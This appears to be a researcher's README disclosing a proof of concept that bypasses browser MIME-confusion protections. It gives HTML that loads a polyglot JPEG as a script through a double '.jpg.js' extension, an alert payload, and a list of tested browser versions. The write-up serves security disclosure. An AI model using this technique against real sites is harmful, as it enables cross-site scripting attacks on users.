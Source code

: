 # Bypass CSP against MIME Confusion Attack

Major browsers have implemented Content Security Policy against MIME confusion attacks since 2018, reported by CVE-2018-5164 and CVE-2019-19916 (my report) which use polyglot image files (GIF, JPG ...) with embedded JavaScript code (as described here: https://blog.mozilla.org/security/2016/08/26/mitigating-mime-confusion-attacks-in-firefox/ and here https://github.com/V1n1v131r4/MIME-Confusion-Attack-on-Midori-Browser).

But based on my studies I found a way to bypass CSP and perform Cross-Site Script (XSS) attacks by exploiting the MIME Type of the HTTP header.


## Proof of concept Step-by-step

CSP's correct behavior in HTTP MIME Type is not to allow an image file with embedded JavaScript code to be read as script, as below the HTML/JS code below:

```
<html>
     <img src="2x.jpg">
	   <script src="2x.jpg"></script>
 </html>
```

I managed to bypass CSP by stating more than one extension in the image file with embedded JavaScript code, like this:

```
<html>
     <img src="2x.jpg.js">
	   <script src="2x.jpg.js"></script>
 </html>
```

So the image continues to be read as script by <script> tag and as image by <img> tag.
  
The image used as PoC was the one available here: http://portswigger-labs.net/polyglot/jpeg/xss_within_header_compressed_small_logo.jpg

The inline JavaScript code was this:
```
*/=alert("Burp rocks.")/*
```

The PoC website is hosted at: http://joomla.sejalivre.org/index2.html

This PoC has been tested on the following browsers:

* Mozilla Firefox 71.0 (Windows e Linux)
* Google Chrome 79.0.3945.88 (Windows e Linux)
* Apple Safari 13.0.4 (MacOS Catalina)
